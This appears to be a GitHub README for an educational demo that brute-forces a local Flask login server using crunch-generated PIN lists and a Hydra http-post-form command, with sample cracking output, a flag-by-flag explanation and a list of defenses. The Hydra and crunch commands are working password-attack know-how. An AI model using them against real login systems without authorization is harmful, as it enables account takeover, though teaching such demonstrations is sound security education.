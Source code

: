 # Brute Force Attack Demonstration

This repository contains a simple demonstration of how brute force attacks work and why strong security measures are essential. The demo includes a basic Python  flask server that simulates a login system and shows how tools like Hydra can be used to attempt password cracking.

## Components

1. A Python Flask server that simulates a login system
2. A demonstration of Hydra and crunch usage for educational purposes
3. Example password lists and configurations

## Setup Instructions

### 1. Install Required Tools

```bash
# Tested on python 3.12
# Update system
apt update

# Install hydra
apt install hydra

# Install crunch
apt install crunch

# Install Python requirements
pip install -r ../requirements.txt 
```

### 2. Create Password List

Create a simple password list for testing:

```bash
crunch 4 4 0123456789 > brute_force.txt
```

### 3. Running the Demo

1. Start the server:
```bash
python target_server.py
```

2. Test with curl (in a new terminal):
```bash
# Test with correct code
# Will receive 'Login successful!'
curl -X POST -d "code=1623" http://localhost:5000/login

# Test with wrong code
# Will receive 'Invalid code'
curl -X POST -d "code=1234" http://localhost:5000/login
```

3. Run the brute force demonstration:
```bash
hydra -I -vV -l user -P brute_force.txt localhost -s 5000 http-post-form "/login:code=^PASS^:Invalid"
```
  
Output:
```bash
[ATTEMPT] target localhost - login "user" - pass "1631" - 1632 of 10000 [child 5] (0/0)
[ATTEMPT] target localhost - login "user" - pass "1632" - 1633 of 10000 [child 10] (0/0)
[ATTEMPT] target localhost - login "user" - pass "1633" - 1634 of 10000 [child 9] (0/0)
[ATTEMPT] target localhost - login "user" - pass "1634" - 1635 of 10000 [child 11] (0/0)
[ATTEMPT] target localhost - login "user" - pass "1635" - 1636 of 10000 [child 4] (0/0)
[ATTEMPT] target localhost - login "user" - pass "1636" - 1637 of 10000 [child 2] (0/0)
[5000][http-post-form] host: localhost   login: user   password: 1623
[STATUS] attack finished for localhost (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-23 14:07:35

```

## Understanding the Hydra Command

The Hydra command breaks down as follows:
- `-vV`: Very verbose
- `-I`: Don't restore previous session
- `-t 1`: Use only 1 thread (did not use in the demo) 
- `-l user`: Username (required by Hydra but not used in our demo)
- `-P brute_force.txt`: Password list file
- `localhost`: Target server
- `-s 5000`: Port number
- `http-post-form`: Type of form submission(post request)
- `"/login:code=^PASS^:Invalid"`: Attack format
  - `/login`: The endpoint
  - `code=^PASS^`: The form field where ^PASS^ is replaced with each attempt
  - `Invalid`: The failure message to look for

## Educational Purpose Notice

**IMPORTANT**: This demonstration is created strictly for educational purposes to help understand:
- How brute force attacks work
- Why strong passwords are important
- The need for security measures like:
  - Rate limiting
  - Account lockouts
  - Multi-factor authentication
  - Complex password requirements

Do not use these techniques against any systems without explicit written permission. Unauthorized attacks against computer systems are illegal and unethical.

## Security Best Practices

To protect against such attacks in real systems, implement:
1. Rate limiting
2. Account lockout policies
3. Complex password requirements
4. Multi-factor authentication
5. Security logging and monitoring
6. IP-based blocking
7. CAPTCHA or similar human verification

Remember: Understanding security vulnerabilities is important for building better defenses, but should never be used for malicious purposes.
